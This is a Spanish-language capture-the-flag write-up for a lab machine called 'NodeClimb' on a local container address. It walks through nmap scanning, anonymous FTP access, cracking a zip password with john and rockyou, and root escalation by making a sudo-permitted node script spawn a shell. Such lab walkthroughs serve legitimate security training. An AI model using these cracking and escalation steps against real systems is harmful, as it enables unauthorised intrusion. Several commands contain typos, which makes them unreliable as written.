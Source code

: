 ### Informe de máquina *"NodeClib"*

![Máquina NodeClimb](./screenshots/01_maquina.png)

Vamos a realizar la maquina "NodeClimb", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `nodeclimb.tar`

![Permisos ejecución deploy](./screenshots/02_permisos_deploy.png)
![Inicialización máquina](./screenshots/03_inicio_maquina.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](./screenshots/04_ping.png)

Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo nmap](./screenshots/05_nmap.png)

Encontramos los puertos `21` y `22` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p21,22 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p21,22` → Especifica los puertos que queremos escanear. En este caso 21 y 22.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 21 y 22](./screenshots/06_detalle_puertos_21_22.png)

Detectamos que el servicio FTP permite realizar un logueo como usuario Annonymous, intentamos conectarnos de esa forma:

![Logueo FTP como annonymous](./screenshots/07_acceso_ftp.png)

Se pudo realizar la conexión, nos encontramos un archivo zip, procedemos a descargarlo:

```bash
wget ftp://172.17.0.2/secretopicaron.zip --no-pasive-ftp
```

![Descarga archivo zip](./screenshots/08_download_zip.png)

Al intentar descomprimir el archivo zip, vemos que nos solicita una contraseña, intentaremos buscar la  contraseña por fuerza bruta haciendo uso de la herramienta `john`

Primero obtengamos el hash del archivo con el comando:

```bash
zip2john secretopicaron.zip > zip.hash
```

Ahora realizamos el ataque de fuerza bruta con el comando:

```bash
john --worldlists=/usr/share/worldlists/rockyou.txt zip.hash
```

![Password de zip](./screenshots/09_find_passwd_zip.png)

Identificamos que la contrasela del zip es "password1", procedemos a descomprimir el archivo con `unzip`, encontramos dentro un archivo llamado "password.txt" con el contenido `mario:laKontraseñAmasmalotaHdelbarrioH`
Asumimos que es la contraseña del usuario `mario`

![Password Mario](./screenshots/10_password_mario.png)

Accedemos con el usuario `mario` y con `sudo 'l` vemos que permisos de ejecución sudo posee este usuario.

![Login como Mario](./screenshots/11_loging_como_mario.png)

Observamos que el usuairo `mario` puede ejecutar el comando `node` con privilegios pero solo hacia el archivo `/home/mario/script.js`.

![Permisos sudo de mario](./screenshots/12_permisos_sudo.png)

Investigamos un poco de como podemos ejecutar una shell con el comando node.
Con el comando `nano` editamos el archivo `script.js` de la siguiente forma

```
const { spawn } = require("child_process");
spawn("/bin/sh", { stdio: "inherit" });
```

Ahora procedemos a ejecutar el comando node junto con el script haciendo uso de altos privilegios:

```bash
sudo /usr/bin/node /home/mario/script.js
```

Y ejecutando el comando `whoami` podemos observar que ahora somos usuario `root`

![Login como root](./screenshots/14_root.png)


